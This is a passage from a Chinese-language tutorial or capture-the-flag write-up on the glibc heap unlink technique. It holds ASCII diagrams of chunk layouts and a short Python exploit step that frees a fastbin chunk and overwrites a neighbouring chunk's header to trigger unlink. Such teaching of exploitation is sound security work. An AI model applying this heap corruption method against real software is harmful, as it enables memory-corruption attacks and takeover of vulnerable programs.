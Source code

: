 ```
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图1
```

#### 释放 chunk1-覆盖 chunk2-释放 chunk2

对应的代码如下

```python
# edit the chunk1 to overwrite the chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
# delete note 2 to trigger the unlink
# after unlink, ptr[0] = ptr - 0x18
deletenote(2)
```

首先释放 chunk1，由于该chunk属于fastbin，所以下次在申请的时候仍然会申请到该chunk，同时由于上面所说的类型问题，我们可以读取任意字符，所以就可以覆盖chunk2，覆盖之后如图2所示。

```
                                   +-----------------+high addr
                                   |      ...        |
                                   +-----------------+
                                   |   '\x00'+'b'*7  |
                ptr[2]-----------> +-----------------+ chunk 2
                                   |    size=0x90    |
                                   +-----------------+
                                   |    0xa0         |
                                   +-----------------|------------
                                   |    'a'*8        |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+ chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图2
```
